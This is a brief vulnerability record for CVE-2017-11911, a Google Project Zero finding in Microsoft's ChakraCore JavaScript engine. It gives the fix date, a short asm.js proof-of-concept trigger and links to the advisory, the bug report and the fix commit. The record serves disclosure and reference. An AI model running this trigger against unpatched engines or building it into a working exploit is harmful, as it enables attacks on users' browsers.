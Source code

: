 # CVE-2017-11911

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function createModule() {
    'use asm';
    const a = 1.0;
    function f() {
        var b = a;
        var a = 0;
    }

    return f;
}
var f = createModule();
f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11911)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1385)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/a5d6be626305671166f21db359c1c06a3a372b8b)